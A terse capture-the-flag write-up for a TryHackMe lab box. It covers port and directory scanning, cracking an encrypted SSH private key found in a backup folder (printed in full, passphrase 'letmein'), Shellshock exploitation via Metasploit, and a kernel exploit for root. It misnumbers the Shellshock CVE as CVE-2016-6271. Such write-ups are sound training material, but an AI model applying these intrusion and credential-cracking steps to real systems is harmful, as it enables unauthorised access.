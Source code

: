 ```
$ nmap -sV 10.10.122.206

-->
ssh 22
http 80
```
```
$ gobuster dir -u http://10.10.122.206:80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt

---> 
/cgi-bin              (Status: 301) [Size: 315] [--> http://10.10.122.206/cgi-bin/]
/img                  (Status: 301) [Size: 311] [--> http://10.10.122.206/img/]    
/uploads              (Status: 301) [Size: 315] [--> http://10.10.122.206/uploads/]
/admin                (Status: 301) [Size: 313] [--> http://10.10.122.206/admin/]  
/css                  (Status: 301) [Size: 311] [--> http://10.10.122.206/css/]    
/js                   (Status: 301) [Size: 310] [--> http://10.10.122.206/js/]     
/backup               (Status: 301) [Size: 314] [--> http://10.10.122.206/backup/] ---> contained rsa priv key 
/secret               (Status: 301) [Size: 314] [--> http://10.10.122.206/secret/] 
```
```
-----BEGIN RSA PRIVATE KEY----- Proc-Type: 4,ENCRYPTED DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547 T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8 9zlECjERSysbUKYccnFknB1DwuJExD/erGRiLBYOGuMatc+EoagKkGpSZm4FtcIO IrwxeyChI32vJs9W93PUqHMgCJGXEpY7/INMUQahDf3wnlVhBC10UWH9piIOupNN SkjSbrIxOgWJhIcpE9BLVUE4ndAMi3t05MY1U0ko7/vvhzndeZcWhVJ3SdcIAx4g /5D/YqcLtt/tKbLyuyggk23NzuspnbUwZWoo5fvg+jEgRud90s4dDWMEURGdB2Wt w7uYJFhjijw8tw8WwaPHHQeYtHgrtwhmC/gLj1gxAq532QAgmXGoazXd3IeFRtGB 6+HLDl8VRDz1/4iZhafDC2gihKeWOjmLh83QqKwa4s1XIB6BKPZS/OgyM4RMnN3u Zmv1rDPL+0yzt6A5BHENXfkNfFWRWQxvKtiGlSLmywPP5OHnv0mzb16QG0Es1FPl xhVyHt/WKlaVZfTdrJneTn8Uu3vZ82MFf+evbdMPZMx9Xc3Ix7/hFeIxCdoMN4i6 8BoZFQBcoJaOufnLkTC0hHxN7T/t/QvcaIsWSFWdgwwnYFaJncHeEj7d1hnmsAii b79Dfy384/lnjZMtX1NXIEghzQj5ga8TFnHe8umDNx5Cq5GpYN1BUtfWFYqtkGcn vzLSJM07RAgqA+SPAY8lCnXe8gN+Nv/9+/+/uiefeFtOmrpDU2kRfr9JhZYx9TkL wTqOP0XWjqufWNEIXXIpwXFctpZaEQcC40LpbBGTDiVWTQyx8AuI6YOfIt+k64fG rtfjWPVv3yGOJmiqQOa8/pDGgtNPgnJmFFrBy2d37KzSoNpTlXmeT/drkeTaP6YW RTz8Ieg+fmVtsgQelZQ44mhy0vE48o92Kxj3uAB6jZp8jxgACpcNBt3isg7H/dq6 oYiTtCJrL3IctTrEuBW8gE37UbSRqTuj9Foy+ynGmNPx5HQeC5aO/GoeSH0FelTk cQKiDDxHq7mLMJZJO0oqdJfs6Jt/JO4gzdBh3Jt0gBoKnXMVY7P5u8da/4sV+kJE 99x7Dh8YXnj1As2gY+MMQHVuvCpnwRR7XLmK8Fj3TZU+WHK5P6W5fLK7u3MVt1eq Ezf26lghbnEUn17KKu+VQ6EdIPL150HSks5V+2fC8JTQ1fl3rI9vowPPuC8aNj+Q Qu5m65A5Urmr8Y01/Wjqn2wC7upxzt6hNBIMbcNrndZkg80feKZ8RD7wE7Exll2h v3SBMMCT5ZrBFq54ia0ohThQ8hklPqYhdSebkQtU5HPYh+EL/vU1L9PfGv0zipst gbLFOSPp+GmklnRpihaXaGYXsoKfXvAxGCVIhbaWLAp5AybIiXHyBWsbhbSRMK+P -----END RSA PRIVATE KEY-----
```
We have to reorganize the ssh private key format.

Then,
```
$ python3 ssh2john.py id_rsa > crack.txt
```
```
$ john crack.txt --wordlist=/usr/share/wordlists/rockyou.txt

---> letmein 
```
```
$ nikto -h "http://10.10.122.206" | tee nikto.log

---> shellshock CVE-2016-6271 in /cgi-bin/test.cgi
```

Found metasploit has this exploit module (related to cgi)

Got a meterpretershell => then shell => then "bash -i" to get a "bash shell"

OR,

For manual exploitation, see: [shellshock in depth](https://securityintelligence.com/articles/shellshock-vulnerability-in-depth/)

=> cd /home/ryan => ls -al 
--> 
user.txt => THM{Sh3llSh0ck_r0ckz}

```
www-data@ubuntu:/home$ ls -al
ls -al
total 12
drwxr-xr-x  3 root root 4096 Sep  2  2020 .
drwxr-xr-x 22 root root 4096 Sep  2  2020 ..
lrwxrwxrwx  1 root root   14 Sep  2  2020 .secret -> /root/root.txt
drwxr-xr-x  3 ryan ryan 4096 Sep  2  2020 ryan
```

Got the version: 3.13.0-32-generic   ---> searchsploit => 37292.c

Uploaded it to /tmp directory ---> and got root shell
